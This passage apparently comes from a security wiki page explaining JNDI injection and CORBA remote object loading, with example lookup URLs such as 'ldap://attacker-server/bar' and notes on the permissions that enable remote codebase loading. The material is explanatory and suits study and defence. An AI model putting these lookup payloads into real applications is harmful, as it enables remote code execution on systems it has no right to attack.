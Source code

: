 Examples of exploitable URLs include:
- _rmi://attacker-server/bar_
- _ldap://attacker-server/bar_
- _iiop://attacker-server/bar_

Despite protections, vulnerabilities remain, mainly due to the lack of safeguards against loading JNDI from untrusted sources and the possibility of bypassing existing protections.


### JNDI Example

![](<../../.gitbook/assets/image (655) (1) (1).png>)

Even if you have set a **`PROVIDER_URL`**, you can indicate a different one in a lookup and it will be accessed: `ctx.lookup("<attacker-controlled-url>")` and that is what an attacker will abuse to load arbitrary objects from a system controlled by him.

### CORBA Overview

CORBA (Common Object Request Broker Architecture) employs an **Interoperable Object Reference (IOR)** to uniquely identify remote objects. This reference includes essential information like:

- **Type ID**: Unique identifier for an interface.
- **Codebase**: URL for obtaining the stub class.

Notably, CORBA isn't inherently vulnerable. Ensuring security typically involves:

- Installation of a **Security Manager**.
- Configuring the Security Manager to permit connections to potentially malicious codebases. This can be achieved through:
  - Socket permission, e.g., ````permissions java.net.SocketPermission "*:1098-1099", "connect";````.
  - File read permissions, either universally (````permission java.io.FilePermission "<<ALL FILES>>", "read";````) or for specific directories where malicious files might be placed.
